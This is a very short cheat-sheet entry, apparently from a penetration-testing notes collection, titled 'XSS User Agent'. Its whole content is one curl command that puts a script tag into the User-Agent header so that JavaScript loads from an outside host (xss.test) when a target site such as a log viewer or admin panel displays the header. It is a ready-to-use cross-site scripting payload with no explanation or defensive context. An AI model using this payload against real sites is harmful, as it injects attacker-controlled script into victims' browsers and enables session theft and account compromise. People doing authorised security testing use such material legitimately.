 # XSS User Agent

## User Agent XSS <a id="user-agent-xss"></a>

 `curl -l -k --user-agent '<script src="https://xss.test"></script>' https://target.site`

